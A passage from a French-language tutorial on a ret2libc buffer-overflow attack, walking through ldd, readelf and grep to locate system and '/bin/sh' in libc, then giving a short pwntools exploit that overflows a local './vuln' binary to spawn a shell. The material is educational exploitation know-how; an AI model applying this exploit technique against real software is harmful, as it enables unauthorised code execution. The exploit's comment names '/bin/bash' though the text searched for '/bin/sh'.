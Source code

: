 <img class="img_full" src="ldd.png" alt="ldd" >

Je vais vous la détailler, car ces outils sont puissants mais pas forcément faciles à utiliser quand on les découvre.

 * Etape 1 :

 ldd affiche les dépendances partagées d'un programme. Ici, (entre autre), la libc et son offset. Sans ASLR il ne change pas, avec, il changera à chaque commande.

 * Etape 2 :

 readelf, nous permet d'analyser le contenu de la libc, qui est un ELF, mais aussi une librairie partagée. Option `-a` pour lire tout le contenu, et mettre à l'aide d'un pipe `|` toute les lignes analysées dans grep, qui va rechercher les lignes contenant le mot system. On récupère celle qui nous intéresse : 0x0003c7d0, donc l'offset de system dans la libc.

 * Etape 3 :

 On cherche `/bin/sh\x00` dans la libc. `-b` pour avoir l'offset en byte, `-o` pour n'avoir que le mot recherché et non la ligne, et `-a` pour activer l'analyse en mode binaire. On obtient donc en décimal l'offset de `/bin/sh` dans la libc.

 * Etape 4 :

 Un coup de python pour avoir la somme de l'offset de la libc et de ce qui nous intéresse, et BIM, on a tout. Un peu plus long, mais pour des exploits plus compliqués, cette manière de faire est à privilégier, croyez-moi ! :')

<img class="img_med" src="mind_blown.gif" alt="mind_blown" >

On a donc récupéré les adresses de system et de `/bin/sh` pour faire exécuter un shell. Nickel ! :D

Maintenant qu'on a tout ce qu'il nous faut, on écrit notre exploit :

```python
#!/usr/bin/en python2

from pwn import *

offset = 268
payload = "A" * offset
payload += p32(0xf7dfa7d0) # @system
payload += p32(0x42424242) # @retour - foo
payload += p32(0xf7f3688a) # @"/bin/bash\x00"

r = process(["./vuln", payload])
r.interactive()
```
